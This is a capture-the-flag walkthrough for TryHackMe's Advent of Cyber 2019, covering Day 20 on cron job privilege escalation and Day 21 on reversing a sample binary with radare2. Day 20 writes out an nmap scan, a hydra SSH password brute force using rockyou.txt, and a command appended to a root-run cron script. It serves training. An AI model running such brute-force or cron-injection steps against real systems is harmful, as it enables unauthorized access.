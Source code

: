 # [Advent of Cyber 1 [2019]](https://tryhackme.com/room/25daysofchristmas)

> Get started with Cyber Security in 25 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

## Day 20: Cronjob Privilege Escalation

scan the machine

```
nmap -sS -sV -p4000-5000 -T4 10.10.168.154
```

![image](https://user-images.githubusercontent.com/90561566/210505078-34612815-db24-430a-b85a-2afca0aa917a.png)

crack sam's password

```
hydra -l sam -P /usr/share/wordlists/rockyou.txt ssh://10.10.168.154 -s 4567 -V -f
```

![image](https://user-images.githubusercontent.com/90561566/210505372-7d923460-9d97-4c3f-89a1-66d24d85689b.png)

```
ssh sam@10.10.168.154 -p 4567
chocolate
```

![image](https://user-images.githubusercontent.com/90561566/210505815-93ffacf7-211f-447f-b610-50d01fde038d.png)

normally, we can check cron jobs with

```
crontab -l
cat /etc/crontab
```

nothing much, we have stuck when enumerating this machine

but i found a scripts folder by root at /home

![image](https://user-images.githubusercontent.com/90561566/210506371-c08ce18f-6c29-4aa0-85d9-b69909df1434.png)

it has a clean_up.sh owned by ubuntu

![image](https://user-images.githubusercontent.com/90561566/210506614-93215787-2e09-402e-8157-e7a43e5aabc6.png)

we know it maybe the file is running on crontabs

```
echo 'chmod +r /home/ubuntu/flag2.txt' >> clean_up.sh
```

wait about 1 min

![image](https://user-images.githubusercontent.com/90561566/210507393-cc083614-c760-4f80-893f-96b9027fe261.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/210507459-c302be2a-4db0-45ad-85d0-187be4e637a9.png)

## Day 21: Reverse Elf-ineering

there are 2 linux execute files

![image](https://user-images.githubusercontent.com/90561566/210509592-2e9d69c4-b4e1-4605-9365-3d6907264525.png)

install r2

```
git clone https://github.com/radare/radare2
cd radare2
sys/install.sh
```

open up the program in radare2 debugging mode

```
r2 -d challenge1
e asm.syntax=intel
```

analy the program

```
aaaa
afl
```

there are a lot of functions

![image](https://user-images.githubusercontent.com/90561566/210511264-f82f7cb5-699b-49fc-8727-e0b7d857b465.png)

look at main function

```
pdf @main
```

![image](https://user-images.githubusercontent.com/90561566/210511437-9f169400-68fe-49ad-ba87-5ac39b1983e8.png)

The first question asks us to find the value of `local_ch` (which is referred to as `var_ch` in Intel syntax)

So set a breakpoint here and we'll have a look at it when we run the program:

```
db 0x00400b51
```

The next question asks us about the value stored in the `eax` register when the `imul` (signed multiplication) instruction is used. 

```
db 0x00400b62
```

Finally we want to know the value stored in `var_4h` before eax is set to 0 (which happens in the third last line of the function)

```
db 0x00400b69
```

To run the program we use `dc`, which will tell us that we've stopped at a breakpoint

Use `pdf @main` and we can see that the current instruction is highlighted

look at some name of these functions

![image](https://user-images.githubusercontent.com/90561566/210512730-6de52aed-af33-4633-af84-4ad5e2c40f5f.png)

view `var_ch` variable

```
px @rbp-0xc
```

![image](https://user-images.githubusercontent.com/90561566/210513579-ce19fd30-a024-43b7-bf1f-4bfd03aa4e4b.png)

Move one line foward with the `ds` command then look at the value again

![image](https://user-images.githubusercontent.com/90561566/210513633-bfbbba44-3a12-41a4-98ea-add44207fce7.png)

Let's continue the execution `dc` and take a look at the next question

```
dc
pdf @main
```

use `ds` to step one line forward then look at the value of eax after `eax` is multiplied by `var_8h`

remember that as `eax` is a register rather than a memory location, we look at it by querying the register values with the `dr` command

![image](https://user-images.githubusercontent.com/90561566/210514667-b10cdf57-8c2b-4a28-a831-4f27e481c903.png)

continuous

```
dc
pdf @main
```

```
px @rbp-0x4
```

![image](https://user-images.githubusercontent.com/90561566/210515211-9e609e25-d06f-4c7c-9095-9e4882e33fb7.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/210515303-c3359fc5-a40c-4369-8699-d00ea7295dfc.png)

## Day 22: If Santa, Then Christmas











